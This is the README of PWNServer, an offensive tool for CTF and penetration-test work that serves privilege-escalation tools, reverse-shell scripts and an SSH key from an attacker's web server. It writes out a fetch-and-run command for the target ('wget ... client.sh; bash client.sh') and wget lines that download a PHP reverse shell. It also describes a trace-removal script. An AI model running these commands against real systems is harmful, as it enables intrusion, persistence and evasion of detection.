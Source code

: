 # PWNServer
This is an idea I got from [IPPSEC](https://ippsec.rocks) which was to spin up a webserver with some useful tools at the beginning of CTF or job even because you know you'll probably need one. This one kind of got of hand, or maybe its just super useful, either way it does provide tools that I find handy in most jobs.

Currently **PWNServer** is focused on Linux targets. I will add Windows stuff at a later date.

## What it does
With **PWNServer** running you will have a variety of tools available to you via HTTP on your attacking box. This is helpful for several reasons. 

1. If the network you're on blocks github so you can't load tools directly onto a target machine; and
2. The tools will be prestaged and therefore loading them onto the target should be super peppy; and
3. Just about anything you want can be made ready at hand instead of having to go look for it or navigate a browser.

### Tools
In practice it means that once you have a foothold on a target computer you can run this command to get a big head start on finding root (10.10.10.17 = attack box IP):
```
$ wget http://10.10.10.37:80/client.sh -O client.sh;bash client.sh
--2022-04-20 14:19:20--  http://10.10.10.37/client.sh
Connecting to 10.10.10.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 851 [text/x-sh]
Saving to: ‘client.sh’
```
That command will proceed to run **client.sh** and download a bunch of tools into the "bin" directory. What tools? Tools like this:

> linpeas.sh
> pspy32
> pspy64
> LinEnum.sh
> linuxprivchecker.py

along with several others and any others you want to add.

A special script, **bugout.sh** is provided to follow the Boy Scout code and "Leave no trace". It will remove all of the files and directories in the current directory and below. It will only run from its own directory, so you don't have to worry about nuking an entire server.

### SSH
You will also have a newly generated SSH key available if you need it:
```
wget http://10.10.10.37:80/sshkey.pub
```
The private key will already be added to your available keys.

### Reverse Shells
The directory *shells.src* contains templates used to generate reverse shell scripts based on your attacker IP and port you are listening on (*LPORT* from config.py). The generated scripts are available by default in "/tmp/PWNServer/html/shells". 

Additionally, since it is so often needed for CTFs, Pentest Monkey's famous reverse shell script is available via this easy command:
```
wget http://10.10.14.17:80/shells/ptm-shell.php -O ptm-shell.php
```

## Requirements

This should work on just about any Linux system. It was developed on Python 3.9.12. It should run on earlier versions, but I haven't tested it on any.

## Installation

Get the code from github:
```
git clone https://github.com/kdirectorate/pwnserver.git
cd pwnserver
```
I highly recommend you create a virtual environment for this app. It is very easy to do:
```
python3 -m venv .venv
. .venv/bin/activate
pip install -r requirements.txt
cp config.py.example config.py
```
*config.py* contains your configuration settings and won't be overwritten if you update your copy of **PWNServer**. You should look it over to make sure it is acceptable to you. Especially the 1st few options:

> USERNAME
> APPNAME
> WEBSERVERPORT
> LPORT
> SERVERPATH

However, everything should work out of the box.

## Usage

To start the server run the setup.py program:

```
. .venv/bin/activate
./setup.py [YOURPUBLICIP]
```
By default this will do the following things:

1. Delete (if necessary) and create the "/tmp/PWNServer" directory (TEMPDIR); and
2. Copy all the files in the "html" directory to "(TEMPDIR)/html"; and
3. Copy a variety of Linux privesc tools from their repositories to "(TEMPDIR)/html/bin" and create a tarball of them; and
4. Generate a bunch of reverse shell scripts using [YOURPUBLICIP] and *LPORT* from **config.py** and put them in "(TEMPDIR)/html/shells" (see shells.src); and
5. Generate a one-off SSH key into "(TEMPDIR)/html/sshkey[& .pub]" and add it to your active keys via *ssh-add*; and
6. Display a list of common commands you may need so you can just copy/paste instead of typing them; and
7. Startup a web server serving files in the "(TEMPDIR)/html" directory.

You can take the webserver down by sending it the URI "/QUIT" remotely, or of course just **CTRL-C**. When you get back to pwning things you can skip most of the steps and just run the webserver via:
```
./setup.py -w [YOURPUBLICIP]
```
Don't worry, if  your IP has changed this will regenerate the reverse shell scripts. Mostly it just won't redownload all the tools from step 3. The full list of options is:
```
usage: Eb13l-Webserver [-h] [-w] [-p P] [-l L] ip

Setup Attacker webserver with the usual naughty tools.

positional arguments:
  ip          IP of our attacking box.

optional arguments:
  -h, --help  show this help message and exit
  -w          Start webserver only.
  -p P        Webserver port.
  -l L        Shell catcher port.

Be ethically naughty.
```

## Maintenance
I recommend you fork this project so that you can then store your custom **config.py** file in github. You may want to periodically check config.py.example to make sure any changes made to the list of packages to download get replicated to your config.py. 

## How it should look
![screenshot](screenshot.png)
[![asciicast](https://asciinema.org/a/oiIDOrSWxFDcZuuiXNKDbaldk.svg)](https://asciinema.org/a/oiIDOrSWxFDcZuuiXNKDbaldk)
